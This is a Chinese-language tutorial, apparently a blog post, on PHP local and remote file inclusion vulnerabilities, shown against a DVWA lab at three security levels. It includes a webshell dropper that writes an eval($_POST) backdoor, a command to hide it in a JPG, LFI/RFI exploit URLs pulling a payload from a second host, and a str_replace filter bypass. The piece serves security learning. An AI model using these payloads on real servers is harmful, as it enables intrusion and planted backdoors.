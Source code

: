 ```yaml
---
title: 文件包含漏洞
date: 2021-01-26 20:38:00
categories:
- [Kali从入门到入狱, OWASP安全渗透实战]
tags: Kali
---
```


# 文件包含漏洞

## Principle and Harm

**文件包含漏洞：**

即File Inclusion，意思是文件包含（漏洞），指当服务器开启`allow_url_include`选项时，就可以通过 php 的某些特性函数` include() , require()和inelude_once() , require_once() `利用 url 去动态包含文件，此时如果没有对文件来源进行严格审查，就会导致住意文件读取或者任意命令执行。文件包含漏洞分为本地文件包含漏洞与远程文件包含漏洞，远程文件包含漏洞是因为开启了php配置中的`allow_url_fopen`选项（选项开启之后，服务器允许包含一个远程的文件）。服务器通过php的特性（函数）去包含任意文件时，由于要包含的这个文件来源过滤不严，从而可以去包含一个恶意文件，而我们可以构造这个恶意文件来达到自己的目的。

1. 文件包含(File Inclusion ) 即程序通过[包含函数]调用本地或远程文件，以此来实现拓展功能
2. 被包含的文件可以是各种文件格式，而当文件里面包含恶意代码，则会形成远程命令执行或文件上传漏洞
3. 文件包含漏洞主要发生在有包含语句的环境中，例独PHP所具备include、require等包含函数

**文件包含分为两类:**

- 本地文件包含LFI ( Local File Inclusion )当被包含的文件在服务器本地时，就形成本地文件包含
- 远程文件包含RFI (Remote File Inclusion ）当被包含的文件在第三方服务器时，叫做远程文件包含

## File Inclusion

### Security Level：Low

#### File Inclusion Source

```php
<?php
    $file = $_GET['page']; //The page we wish to display 
?> 
```

未做任何文件包含过滤，可使用最简单的远程文件包含

#### Local File Inclusion + Webshell

结合图片文件上传使用，图片不应超过20KB，否则可能无法执行

1. 制作一句话图片木马

   ```php
   # Webshell.php
   <?fputs(fopen("shell0.php", "w"), "<?php @eval($_POST['chopper']); ?>")?>
   ```

   ```shell
   # 用工具edjpgcom生成一句话图片木马或者Windows命令
   copy cat.jpg /b + Webshell.php /a cat0.jpg
   ```

2. 上传图片木马文件

3. 执行文件包含并生成后门

   `http://192.168.111.18/dvwa/vulnerabilities/fi/?page=../../hackable/uploads/cat0.jpg`

4. 通过菜刀连接Webshell

#### Remote File Inclusion + Webshell

将图片马或者可生成后门文件代码的txt文件上传到第三方服务器，直接包含远程文件，执行文件并生成后门

`http://192.168.111.18/dvwa/vulnerabilities/fi/?page=http://192.168.111.16/cat0.txt`

### Security Level：Medium

#### File Inclusion Source

```php
<?php
    $file = $_GET['page']; // The page we wish to display 

    // Bad input validation
    $file = str_replace("http://", "", $file);
    $file = str_replace("https://", "", $file);        
?> 
```

后端代码过滤了htpp://和htpps://字符，置空字符

根据函数`str_replace()`可用以下原理

`'http' + 'http://' + '://' = 'http://'`

使用：`http://192.168.111.18/dvwa/vulnerabilities/fi/?page=hthttp://tp://192.168.111.16/cat0.txt`

### Security Level：High

#### File Inclusion Source

```php
<?php
    $file = $_GET['page']; //The page we wish to display 

    // Only allow include.php
    if ( $file != "include.php" ) {
        echo "ERROR: File not found!";
        exit;
    }
?> 
```

后端代码显示包含文件只要不是include.php文件就不能包含，额...写死了文件包含，无解吧……